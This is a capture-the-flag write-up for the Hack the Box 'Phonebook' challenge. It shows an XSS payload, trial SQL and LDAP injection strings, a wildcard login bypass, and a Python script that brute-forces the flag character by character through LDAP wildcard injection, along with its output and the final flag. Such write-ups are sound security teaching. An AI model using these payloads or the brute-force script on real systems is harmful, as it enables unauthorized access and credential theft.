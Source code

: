 # Writeup "Phonebook"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/phonebook              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-phonebook-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/__                                                 </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-02                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-09-09                                                   </td></tr>
</table>

## Description

> Who is lucky enough to be included in the phonebook?

## Solution

The specified URL displays a login screen including a message by someone called "Reese": 

<p align="center">
   <img src="includes/phonebook-01.png" />
</p>

When we try to open the directory containing the included image, we discover a second page with a search field. The search field sends a POST request to the `/search` endpoint but we always receive a `403 Forbidden` response.

<p align="center">
   <img src="includes/phonebook-02.png" />
</p>

When we login, the website sends a POST request to the `/login` endpoint. Since we don't know the correct credentials, we are redirected to the original page with the additional parameter `message=Authentication failed`. This message is then displayed on the login page:

<p align="center">
   <img src="includes/phonebook-03.png" />
</p>

This means that there is a _cross site scripting_ (_"XSS"_) vulnerability on this page. Since the payload is inserted into the website using the `innerHTML` attribute, we cannot use a `<script>` tag. But we can use the following code to trigger the XSS without user interaction:

``` html
<img src="" onerror=alert(window.origin) />
```

<p align="center">
   <img src="includes/phonebook-04.png" />
</p>

After some testing however, this does not seem to help us so we look for a different approach. After reading several comments in the official discussion thread, we decide to try an injection attack in the login fields. Exploits for SQL or PHP like `Reese' #` or `Reese'; //` do not work; according to some comments, the technology behind the login seems to be LDAP. But LDAP injection strings like `Reese)(&)` only lead to a `500 Internal Server Error` response. At least, this seems to confirm that LDAP is used.

Since at this point we are stuck, we do a web search for writeups of the challenge[^1][^2]. This leads us to a frustratingly easy solution for this first step: Just use "`*`" for both username and password. This leads us to the same search page we discovered earlier, but this time we are authenticated and we can use the search function.

We are now able to search through the user database; however, this does not reveal any hints regarding the flag. Turning back to the writeups, we learn that the solution is to find the password of the user `Reese` through a bruteforce attack. This is made possible by the fact that we can use the wildcard character "`*`" for any part of the password. Therefore, we can guess one letter at a time. Flags at HTB always have the same pattern, so we try to log in using "`HTB{*}`" as password, which is successful. Using the following _Python_ script, we can iterate through all possible passwords:

``` python
import requests
import string

challenge_url = "http://139.59.174.34:31321"
login_endpoint = "/login"

def testPassword(password: str) -> bool:
   password = "HTB{" + password + "}"
   payload = {'username': 'reese', 'password': password}

   response = requests.post(url=challenge_url+login_endpoint, data=payload)
   url = response.url

   return (url.find("failed") < 0)

def main():
   chars = string.ascii_letters + string.digits + "_?!"
   password = ""
   char_index = 0
   
   while char_index < len(chars):
      if testPassword(password + chars[char_index] + "*"):
         password += chars[char_index]
         char_index = 0
         print("Scanning... ", password)
      else:
         char_index += 1
   
   print("Flag found!")

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
Scanning... d
Scanning... d1
Scanning... d1r
Scanning... d1re
Scanning... d1rec
Scanning... d1rect
Scanning... d1recto
Scanning... d1rector
Scanning... d1rectory
Scanning... d1rectory_
Scanning... d1rectory_h
Scanning... d1rectory_h4
Scanning... d1rectory_h4x
Scanning... d1rectory_h4xx
Scanning... d1rectory_h4xx0
Scanning... d1rectory_h4xx0r
Scanning... d1rectory_h4xx0r_
Scanning... d1rectory_h4xx0r_i
Scanning... d1rectory_h4xx0r_is
Scanning... d1rectory_h4xx0r_is_
Scanning... d1rectory_h4xx0r_is_k
Scanning... d1rectory_h4xx0r_is_k0
Scanning... d1rectory_h4xx0r_is_k00
Scanning... d1rectory_h4xx0r_is_k00l
Flag found!
```

Therefore, the flag is:

```
HTB{d1rectory_h4xx0r_is_k00l}
```

### Sources

[^1]: https://skelter.hashnode.dev/htb-phonebook-writeup
[^2]: https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/
[^3]: 
